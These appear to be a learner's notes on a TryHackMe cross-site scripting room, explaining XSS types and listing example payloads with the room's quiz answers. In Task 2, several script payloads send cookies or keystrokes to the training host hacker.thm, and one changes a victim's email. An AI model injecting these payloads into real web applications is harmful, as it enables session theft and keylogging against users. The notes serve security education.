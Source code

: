 ```yaml
---
{"dg-publish":true,"permalink":"/thm-notes/web-fundamentals-path/xss/","title":"Intro to Cross Site Scripting","tags":["web"]}
---
```


## Notes on XSS and Exploiting Cross-Site Scripting Vulnerabilities

## TASK 1 - Room Brief
### Prerequisites
- Basic understanding of JavaScript
- Understanding of Client-Server requests and responses

### Introduction to XSS
- XSS (Cross-Site Scripting): An injection attack where malicious JavaScript is injected into a web application to be executed by other users.
- Types of XSS:
  - Reflected XSS
  - Stored XSS
  - DOM-Based XSS
- Real-world examples of XSS vulnerabilities found in major applications: Shopify, Steam chat, HackerOne, Infogram.

**Questions:**
1. What does XSS stand for?
   - Answer: `Cross-site scripting`

## TASK 2 - XSS Payloads
### What is a Payload?
- The JavaScript code intended to be executed on the target's computer.
- Two parts: intention and modification.

### Examples of XSS Intentions
1. **Proof of Concept:**
   - Example: `<script>alert('XSS');</script>`
2. **Session Stealing:**
   - Example: `<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>`
3. **Key Logger:**
   - Example: `<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>`
4. **Business Logic:**
   - Example: `<script>user.changeEmail('attacker@hacker.thm');</script>`

**Questions:**
1. Which document property could contain the user's session token?
   - Answer: `document.cookie`
2. Which JavaScript method is often used as a Proof Of Concept?
   - Answer: `alert`
